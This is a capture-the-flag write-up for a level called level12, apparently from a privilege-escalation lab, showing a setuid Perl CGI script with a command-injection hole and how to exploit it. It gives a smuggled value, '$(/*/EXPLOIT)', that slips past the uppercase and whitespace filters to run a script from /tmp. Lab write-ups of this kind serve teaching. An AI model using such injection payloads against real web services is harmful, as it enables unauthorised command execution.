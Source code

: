 # Level12 writeup

## Info

User level12 has a setuid (flag12) perl `level12.pl` in there root of their home directory.

`level12.pl`
``` perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

Using nmap we can confirm that there is indeed a port open on 4646. However this isn't as easy as in level04, there are 2 caviats in executing shell code. `$xx =~ tr/a-z/A-Z/;` capitalizes our input and `$xx =~ s/\s.*//;` removes all content after a single whitespace. Meaning we need to create an exploit that has no whitespace and works with only capital letters.

## Victory

We can simply create a script with full capital letters like `EXPLOIT` and place it in a folder where all users have access, like /tmp.

`EXPLOIT`
``` bash
getflag > /tmp/flag
```

Then we navigate to the webserver via a browser and simply pass `$(/*/EXPLOIT)` to param x. Where the number of /* is equal to the number of folders in the path to our program.

Simply cat the file created and voila, the flag.